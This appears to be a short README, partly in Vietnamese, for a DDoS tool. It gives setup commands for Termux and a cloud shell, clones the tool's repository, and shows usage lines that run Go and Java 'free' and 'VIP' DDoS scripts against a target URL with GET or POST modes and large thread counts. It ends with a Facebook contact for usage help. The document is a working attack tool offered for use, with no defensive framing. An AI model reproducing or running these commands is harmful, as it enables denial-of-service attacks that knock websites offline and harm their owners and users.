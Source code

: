 # Setup termux
pkg update

pkg upgrade

pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt update

sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/Xuan-QuyenDepzaivailon/ddosby-xquyen

cd ddosby-xquyen
# Chế độ Get sài cho web https://
go run freeddos.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post xài cho web http://
go run freeddos.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS Free

java freeddos.java

Link web:

Thread: 170000

Method: 4000
# Java DDoS Vip
java vipddos.java

Cách sài ib fb: https://m.facebook.com/dv.xuanquyen
